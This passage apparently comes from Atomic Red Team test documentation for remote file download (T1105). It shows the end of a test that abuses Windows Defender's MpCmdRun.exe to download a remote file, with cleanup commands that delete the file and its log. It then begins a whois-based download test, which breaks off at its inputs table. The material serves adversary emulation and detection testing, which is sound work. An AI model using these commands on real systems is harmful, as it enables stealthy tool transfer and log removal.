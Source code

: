 
```cmd
cd "%ProgramData%\Microsoft\Windows Defender\platform\4.18*"
MpCmdRun.exe -DownloadFile -url #{remote_file} -path #{local_path}
```

#### Cleanup Commands:
```cmd
del #{local_path} >nul 2>&1
del %temp%\MpCmdRun.log >nul 2>&1
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Must have a Windows Defender version with MpCmdRun.exe installed
##### Check Prereq Commands:
```cmd
cd "%ProgramData%\Microsoft\Windows Defender\platform\4.18*"
MpCmdRun.exe /?  >nul 2>&1
```
##### Get Prereq Commands:
```cmd
Echo "A version of Windows Defender with MpCmdRun.exe must be installed manually"
```




<br/>
<br/>

## Atomic Test #14 - whois file download
Download a remote file using the whois utility

**Supported Platforms:** Freebsd, Linux, macOS


**auto_generated_guid:** c99a829f-0bb8-4187-b2c6-d47d1df74cab





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote hostname or IP address | string | localhost|
| remote_port | Remote port to connect to | integer | 8443|
| output_file | Path of file to save output to | path | /tmp/T1105.whois.out|
| query | Query to send to remote server | string | Hello from Atomic Red Team test T1105|
| timeout | Timeout period before ending process (seconds) | integer | 1|

